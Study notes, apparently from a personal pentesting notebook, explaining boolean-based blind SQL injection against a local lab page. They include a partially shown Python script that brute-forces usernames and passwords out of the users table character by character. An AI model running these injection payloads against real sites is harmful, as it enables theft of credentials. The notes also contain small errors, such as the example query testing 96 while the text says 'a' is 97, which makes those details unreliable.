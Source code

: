 ![[logic_exploit.png]]
Both responses return an *empty Content-Length* which proves that we wouldn't be actually seeing any feedback on the page itself. On the last screenshot we observe that the id number 1 exists so the site returns a 200 OK, we would also get this status code for any `SQL query` returning a `True` *0* boolean value. Therefore one could craft the following injection.
![[modification.png]]
So the actual query being processed in the Data Base would be:
```MySQL
select username from users where id=1 and (select ascii(substring(username,1,1)) from users where id = 1)=96
```
Let's clear out what some of the functions displayed do:
- `ascii()`: Gets the decimal representation of an *ascii* character
- `substring()`: Splits the original element to the desired length and position
- Finally note how the parenthesis `()` are being used to design *sub-queries*. Sub-queries are prioritized over the main query.
So know that we have all needed knowledge in mind, we can now see how the last query returns *True* only if **1** is a **valid** `id` **AND** the **first letter of the username** (with id 1) from the users table is an 'a' (or **97** on the decimal scale).
### Exploit
We are going to extract all the usernames and passwords from the database by analyzing the status code from multiple queries made with the [[requests]] library.
```Python
#!/usr/bin/env python3

import requests
from pwn import *
import signal
import sys

main_url = "http://localhost/searchUsers.php"
credentials = []

def def_handler(sig, frame):
    print("\n\nQuitting...\n")
    sys.exit(1)

# Ctrl_C
signal.signal(signal.SIGINT, def_handler)

def makeSQLI():
    
    p1 = log.progress("Brute Force")
    p1.status("Initianting brute force attack")

    time.sleep(2)

    p2 = log.progress("Extracted Data")

    extracted_data = ""

    empty = False
    position=0

    while empty == False:
        counter = 33
        position+=1
        for character in range(33, 127): #all characters represented in decimal
            counter+=1
            url = main_url + f"?id=4 or (select ascii(substring(group_concat(id,0x3a,username,0x3a,password),{position},1)) from users)={character}"
            p1.status(url)
```
